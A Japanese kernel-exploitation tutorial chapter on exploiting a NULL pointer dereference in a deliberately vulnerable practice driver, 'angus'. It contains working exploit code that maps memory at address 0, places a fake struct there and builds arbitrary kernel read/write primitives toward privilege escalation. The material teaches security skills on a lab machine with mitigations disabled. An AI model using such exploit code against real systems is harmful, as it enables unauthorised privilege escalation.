


Kernel Exploitに必要な知識のほとんどはLK01で既に説明が完了しているので、ここからはカーネル空間特有の攻撃手法やLinuxカーネルに搭載された機能に対する攻撃などの細かい内容になります。
LK02(Angus)ではカーネル空間におけるNULL Pointer Dereferenceの悪用方法について学びます。まず[練習問題LK02](distfiles/LK02.tar.gz)のファイルをダウンロードしてください。

<div class="column" title="目次">
<!-- toc --><br>
</div>

## 本章で扱う脆弱性について
LK02のqemu起動オプションを見ると分かりますが、今回の攻撃対象のマシンではSMAPが無効になっています。本章で扱うNULL Pointer Dereferenceは、SMAPが無効でないとexploitできません。
また、今回のカーネルを起動して次のコマンドを入力してみてください。
```
$ cat /proc/sys/vm/mmap_min_addr
0
```
[`mmap_min_addr`](https://elixir.bootlin.com/linux/v5.17.1/source/security/min_addr.c#L8)はLinuxカーネルの変数で、名前の通りユーザーランドから`mmap`でマップできる最も小さいアドレスを制限します。デフォルトでは非ゼロの値ですが、今回の攻撃対象では0に設定されていることに注意してください。この変数は、今回扱うNULL Pointer Dereferenceに対するmitigationとしてLinuxカーネルのバージョン2.6.23から導入されました。

このように、本章の内容はSMAPやmmapのmitigationが回避できる前提での攻撃になるため、最近のLinuxで使える手法にのみ興味がある方は読み飛ばしてもらって構いません。

## 脆弱性の確認
まずはLK02のソースコードを読んでみましょう。ソースコードは`src/angus.c`に書かれています。

### ioctl
LK01と大きく違う点は、`read`,`write`が実装されていない代わりに`ioctl`というシステムコールのハンドラが記述されていることです。ファイルディスクリプタに対して`ioctl`を呼ぶことで、対応するカーネルやドライバ中の`ioctl`ハンドラが呼ばれます。
`ioctl`はファイルディスクリプタ以外に`request`, `argp`という2つの引数を取ります。
```
ioctl(fd, request, argp);
```
`request`には、そのデバイスを操作するリクエストコードを渡します。リクエストコードはドライバが各自で定義した値なので、ソースコードを読んでどのようなリクエストを投げられるかを把握しましょう。
`argp`はそのデバイスに渡すデータを入れます。一般的にはここにはユーザー空間のデータのポインタが入り、カーネルモジュール側で`copy_from_user`を使ってリクエスト内容を読み出します。
今回のカーネルモジュールでも、`request_t`という構造体をユーザー空間から渡す仕様になっています。
```c
typedef struct {
  char *ptr;
  size_t len;
} request_t;

...

static long module_ioctl(struct file *filp,
                         unsigned int cmd,
                         unsigned long arg) {
  request_t req;
  XorCipher *ctx;

  if (copy_from_user(&req, (void*)arg, sizeof(request_t)))
    return -EINVAL;
```
また、`request`のコードに応じて処理を変えている様子も確認できます。
```c
  switch (cmd) {
    case CMD_INIT:
      if (!ctx)
        filp->private_data = (void*)kzalloc(sizeof(XorCipher), GFP_KERNEL);
      if (!filp->private_data) return -ENOMEM;
      break;

    case CMD_SETKEY:
      ...
      break;
      
    case CMD_SETDATA:
      ...
```
`ioctl`ハンドラの実装を読む前に、今回使われている`private_data`について説明します。

### file構造体
ユーザー空間からドライバなどを操作するときファイルディスクリプタを使いますが、カーネル側では[`file構造体`](https://elixir.bootlin.com/linux/v5.17.1/source/include/linux/fs.h#L956)として受け取ります。
ファイル構造体には例えば`lseek`で設定されたカーソルの位置[^1]などファイル固有の情報がありますが、カーネルモジュールが自由に使って良いメンバとして`private_data`があります。
```c
struct file {
    ...
	/* needed for tty driver, and maybe others */
	void			*private_data;
```
`private_data`にはどのようなデータを置いても構いませんが、データの確保や解放は当然モジュール側が正しく実装する必要があります。今回のドライバでは`XorCipher`という独自の構造体を格納するために使っています。
```c
static int module_open(struct inode *inode, struct file *filp) {
  filp->private_data = NULL;
  return 0;
}

static int module_close(struct inode *inode, struct file *filp) {
  if (filp->private_data)
    kfree(filp->private_data);
  return 0;
}
...
  switch (cmd) {
    case CMD_INIT:
      if (!ctx)
        filp->private_data = (void*)kzalloc(sizeof(XorCipher), GFP_KERNEL);
      if (!filp->private_data) return -ENOMEM;
      break;
```

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
    LK01-4 (Holstein v4)でもここにデータを格納すれば競合が起きなかったね。
  </p>
</div>

### プログラムの概要
このプログラムはデータをXOR暗号で暗号化・復号できるカーネルモジュールです。
このモジュールは`ioctl`で操作でき、リクエストコードは次の5つが用意されています。
```c
#define CMD_INIT    0x13370001
#define CMD_SETKEY  0x13370002
#define CMD_SETDATA 0x13370003
#define CMD_GETDATA 0x13370004
#define CMD_ENCRYPT 0x13370005
#define CMD_DECRYPT 0x13370006
```
まず`CMD_INIT`で呼び出すと`private_data`に`XorCipher`構造体が格納されます。
```c
typedef struct {
  char *key;
  char *data;
  size_t keylen;
  size_t datalen;
} XorCipher;
...
    case CMD_INIT:
      if (!ctx)
        filp->private_data = (void*)kzalloc(sizeof(XorCipher), GFP_KERNEL);
      if (!filp->private_data) return -ENOMEM;
      break;
```
`XorCipher`構造体は鍵`key`とその長さ`keylen`、データ`data`とその長さ`datalen`を持ちます。

次に`CMD_SETKEY`で呼び出すと、`argp`で渡されたデータを鍵としてコピーします。既に鍵が登録されている場合は先に古い鍵を解放します。
```c
    case CMD_SETKEY:
      if (!ctx) return -EINVAL;
      if (!req.ptr || req.len > 0x1000) return -EINVAL;
      if (ctx->key) kfree(ctx->key);
      if (!(ctx->key = (char*)kmalloc(req.len, GFP_KERNEL))) return -ENOMEM;

      if (copy_from_user(ctx->key, req.ptr, req.len)) {
        kfree(ctx->key);
        ctx->key = NULL;
        return -EINVAL;
      }

      ctx->keylen = req.len;
      break;
```
同様に`CMD_SETDATA`ではユーザー空間から暗号化・復号したいデータをコピーします。
```c
    case CMD_SETDATA:
      if (!ctx) return -EINVAL;
      if (!req.ptr || req.len > 0x1000) return -EINVAL;
      if (ctx->data) kfree(ctx->data);
      if (!(ctx->data = (char*)kmalloc(req.len, GFP_KERNEL))) return -ENOMEM;
      
      if (copy_from_user(ctx->data, req.ptr, req.len)) {
        kfree(ctx->key);
        ctx->key = NULL;
        return -EINVAL;
      }

      ctx->datalen = req.len;
      break;
```
暗号化・復号されたデータは`CMD_GETDATA`を使ってユーザー空間へコピーできます。
```c
    case CMD_GETDATA:
      if (!ctx->data) return -EINVAL;
      if (!req.ptr || req.len > ctx->datalen) return -EINVAL;
      if (copy_to_user(req.ptr, ctx->data, req.len)) return -EINVAL;
      break;
```
最後に`CMD_ENCRYPT`と`CMD_DECRYPT`では、`xor`関数を呼び出します。（XOR暗号なので暗号化も復号も同じアルゴリズムです。）データや鍵が設定されていない場合はエラーとなります。
```c
long xor(XorCipher *ctx) {
  size_t i;

  if (!ctx->data || !ctx->key) return -EINVAL;
  for (i = 0; i < ctx->datalen; i++)
    ctx->data[i] ^= ctx->key[i % ctx->keylen];
  return 0;
}

...

    case CMD_ENCRYPT:
    case CMD_DECRYPT:
      return xor(ctx);
```

### 脆弱性の調査
今回のドライバにはバッファオーバーフローやUse-after-Freeといった脆弱性はありません。気づきにくいかもしれませんが、よく読むと暗号化・復号処理にNULL Pointer Dereferenceが存在します。
まず`ioctl`の最初に`private_data`のポインタを`XorCipher`として取得します。
```c
  ctx = (XorCipher*)filp->private_data;
```
`CMD_SETKEY`などでは`private_data`が初期化済みかチェックされています。
```c
if (!ctx) return -EINVAL;
```
しかし、`CMD_GETDATA`,`CMD_ENCRYPT`,`CMD_DECRYPT`にはこのチェックがありません。
```c
long xor(XorCipher *ctx) {
  size_t i;

  if (!ctx->data || !ctx->key) return -EINVAL; // ctxのNULLチェックが無い
  for (i = 0; i < ctx->datalen; i++)
    ctx->data[i] ^= ctx->key[i % ctx->keylen];
  return 0;
}
...
    case CMD_GETDATA:
      if (!ctx->data) return -EINVAL; // ctxのNULLチェックが無い
      if (!req.ptr || req.len > ctx->datalen) return -EINVAL;
      if (copy_to_user(req.ptr, ctx->data, req.len)) return -EINVAL;
      break;

    case CMD_ENCRYPT:
    case CMD_DECRYPT:
      return xor(ctx);
```
したがって、データの取得や、暗号化・復号の際に未初期化の`XorCipher`（つまりNULLポインタ）を参照してしまう可能性があります。

### 脆弱性の確認
まずは正しい使い方でこのモジュールを呼び出してみます。各リクエストコードに対応する関数を作ると便利です。
```c
int angus_init(void) {
  request_t req = { NULL };
  return ioctl(fd, CMD_INIT, &req);
}
int angus_setkey(char *key, size_t keylen) {
  request_t req = { .ptr = key, .len = keylen };
  return ioctl(fd, CMD_SETKEY, &req);
}
int angus_setdata(char *data, size_t datalen) {
  request_t req = { .ptr = data, .len = datalen };
  return ioctl(fd, CMD_SETDATA, &req);
}
int angus_getdata(char *data, size_t datalen) {
  request_t req = { .ptr = data, .len = datalen };
  return ioctl(fd, CMD_GETDATA, &req);
}
int angus_encrypt() {
  request_t req = { NULL };
  return ioctl(fd, CMD_ENCRYPT, &req);
}
int angus_decrypt() {
  request_t req = { NULL };
  return ioctl(fd, CMD_ENCRYPT, &req);
}
```
例として、"Hello, World!"を"ABC123"という鍵で暗号化・復号してみましょう。
```c
int main() {
  unsigned char buf[0x10];
  fd = open("/dev/angus", O_RDWR);
  if (fd == -1) fatal("/dev/angus");

  angus_init();
  angus_setkey("ABC123", 6);
  angus_setdata("Hello, World!", 13);

  angus_encrypt();
  angus_getdata(buf, 13);
  for (int i = 0; i < 13; i++) {
    printf("%02x ", buf[i]);
  }
  putchar('\n');

  angus_decrypt();
  angus_getdata(buf, 13);
  for (int i = 0; i < 13; i++) {
    printf("%02x ", buf[i]);
  }
  putchar('\n');

  close(fd);
  return 0;
}
```
データが暗号化・復号できていたら成功です。

<center>
  
</center>

次にXorCipherを初期化せずに暗号化してみましょう。
```c
int main() {
  fd = open("/dev/angus", O_RDWR);
  if (fd == -1) fatal("/dev/angus");

  //angus_init();
  angus_encrypt();

  close(fd);
  return 0;
}
```

これを実行すると、次のようにカーネルパニックに陥るかと思います。

<center>
  
</center>

BUGの項目を見ると「kernel NULL pointer dereference, address: 0000000000000008」とあり、解析した通りNULLポインタを参照しようとしてクラッシュしていることが分かります。
NULLポインタ参照はユーザー空間のプログラムでも度々発生しますが、このバグは通常exploitableではありません。では、今回はどのようにこのバグを使って権限昇格するのでしょうか。

## 仮想メモリとmmap\_min\_addr
[Linuxの仕様](https://www.kernel.org/doc/Documentation/x86/x86_64/mm.txt)として、仮想メモリはアドレスによって使用用途が異なります。例えば`0000000000000000`から`00007fffffffffff`まではユーザー空間が自由に使えます。また、`ffffffff80000000`から`ffffffff9fffffff`まではカーネルデータの領域で、物理アドレス0にマップされています。

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
    Linuxでは48ビットのアドレスを64ビットに符号付き拡張するよ。だから0x800000000000から0xffff7fffffffffffまではアドレスとして不正で、non-canonicalと呼ばれているんだね。
  </p>
</div>

`0000000000000000`から`00007fffffffffff`まではユーザー空間が使えます。つまり、アドレス0がマップされているとき、NULLポインタ参照はSegmentation Faultを起こさずにデータを読み書きできます。カーネル空間のNULLポインタ参照では、SMAPが無効のときはユーザー空間のデータを読めるので、攻撃者が意図的にアドレス0に用意したデータを使ってしまうのです。

`mmap`では通常第一引数が0(NULL)のときは、どのアドレスにマップするかをカーネルに任せます。しかし、`MAP_FIXED`フラグを付けてマップすれば必ずそのアドレスにマップする（か失敗する）ようになり、アドレス0にメモリを確保できます。（KPTIが有効なので`MAP_POPULATE`も忘れないようにしましょう。）
```c
mmap(0, 0x1000, PROT_READ|PROT_WRITE,
     MAP_FIXED|MAP_PRIVATE|MAP_ANONYMOUS|MAP_POPULATE,
     -1, 0);
```
今回の攻撃対象のマシンでもこの方法でアドレス0にメモリを確保できますが、みなさんの普段使っているLinuxマシンでは上記コードは失敗するかと思います。
LinuxにはNULL pointer dereferenceに対するmitigationとして`mmap_min_addr`という変数があります。
```
$ cat /proc/sys/vm/mmap_min_addr
65536
```
ユーザー空間からこのアドレスよりも小さいアドレスにメモリをマップすることはできません。そのため通常NULL pointer dereferenceはunexploitableですが、今回の攻撃対象ではこの値が0に設定されているため攻撃可能となります。

## 権限昇格
`XorCipher`構造体をNULLポインタ参照してしまうので、攻撃者はアドレス0に偽の`XorCipher`構造体を用意します。
```c
typedef struct {
  char *key;
  char *data;
  size_t keylen;
  size_t datalen;
} XorCipher;
```
`data`ポインタと`datalen`を操作すれば、`CMD_GETDATA`で任意アドレスからデータを読み出せることが分かります。また、`data`ポインタと`datalen`、さらに`key`と`keylen`を適切に設定すれば、任意アドレスのデータを書き換えられます。
したがって、今回の脆弱性ではAAR/AAWという非常に強力なprimitiveが作れます。`CMD_GETDATA`では`copy_to_user`を使ってカーネル空間からユーザー空間にデータを転送します。
```c
if (copy_to_user(req.ptr, ctx->data, req.len)) return -EINVAL;
```
`copy_to_user`や`copy_from_user`といった関数は、誤ってマップされていないアドレスが渡されてもクラッシュせずに失敗するように設計されています。したがって、KASLRが有効な場合でも、適当にアドレスを決めて総当り的にデータを読んでいけば、いつか`copy_to_user`が成功します。

何はともあれAAR/AAWを作って、ユーザー空間のデータを読み書きすることで実装を確認しましょう。
```c
XorCipher *nullptr = NULL;

void AAR(char *dst, char *src, size_t len) {
  nullptr->data = src;
  nullptr->datalen = len;
  angus_getdata(dst, len);
}

void AAW(char *dst, char *src, size_t len) {
  // xorでAAWするので、元データを先に読んでおく
  char *tmp = (char*)malloc(len);
  if (tmp == NULL) fatal("malloc");
  AAR(tmp, dst, len);

  // xorすると書き込みたいデータになるように調整
  for (size_t i = 0; i < len; i++)
    tmp[i] ^= src[i];

  // 書き込み
  nullptr->data = dst;
  nullptr->datalen = len;
  nullptr->key = tmp;
  nullptr->keylen = len;
  angus_encrypt();

  free(tmp);
}

int main() {
  fd = open("/dev/angus", O_RDWR);
  if (fd == -1) fatal("/dev/angus");

  // 偽のXorCipher構造体をNULLポインタに用意
  if (mmap(0, 0x1000, PROT_READ|PROT_WRITE,
           MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE|MAP_POPULATE,
           -1, 0) != NULL)
    fatal("mmap");

  // AAR/AAWのテスト
  char buf[0x10];
  AAR(buf, "Hello, World!", 13);
  printf("AAR: %s\n", buf);
  AAW(buf, "This is a test", 14);
  printf("AAW: %s\n", buf);

  close(fd);
  return 0;
}
```
AAR/AAWが成功しました！

<center>
  
</center>

あとはカーネルのベースアドレスを探したり、`cred`構造体を探したり、自由な手法で権限昇格してみてください。サンプルのexploitコードは[ここ](exploit/angus_exploit.c)からダウンロードできます。

<center>
  
</center>

[^1]: 当然`lseek`のハンドラもカーネルモジュール側が正しく実装する必要があります。

----

<div class="column" title="例題">
  <code>cred</code>構造体を見つける方法、カーネルのベースアドレスを見つける方法などを試し、どの手法が平均的に最も速く終わるかを調べましょう。また、それぞれの手法の利点と欠点は何でしょうか。
</div>
